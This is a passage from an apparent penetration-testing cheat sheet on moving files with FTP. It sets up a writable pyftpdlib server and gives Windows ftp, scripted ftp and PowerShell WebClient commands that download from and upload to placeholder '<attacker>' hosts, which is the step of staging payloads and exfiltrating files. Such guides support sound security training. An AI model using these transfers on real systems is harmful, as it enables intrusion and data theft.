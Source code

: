 
### Setup FTP


We can install a Python FTP server with `pyftpdlib` pip package.

```bash
pip3 install pyftpdlib
```

Then, start the FTP server as Python module. `-w` option is used to enable WRITE permissions. That server allows us to download and upload files.

```bash
python3 -m pyftpdlib -w
```


### Windows FTP


We can use `ftp` command in interactive way. Use `help` command to list available commands.

```
ftp <attacker>
get <filename>
put <filename>
```

Also we can communicate with FTP via configuration file (file.txt in this example example). It is useful in non-interactive sessions and to specify credentials.

```
echo open 192.168.1.2 21 > file.txt
echo USER <username> >> file.txt
echo <password> >> file.txt
echo bin >> file.txt
echo GET <filename> >> file.txt
echo bye >> file.txt
ftp -v -n -s:file.txt
```


### PowerShell FTP


Windows PowerShell can be used to communicate with FTP server. It can be done via PowerShell's `WebClient`.

```powershell
$client = New-Object System.Net.WebClient

$client.DownloadFile("ftp://<attacker>:<port>/<filename>","<dest-path>")
$client.UploadFile("ftp://<attacker>:<port>/<filename>","<source-path>")
```


## TFTP
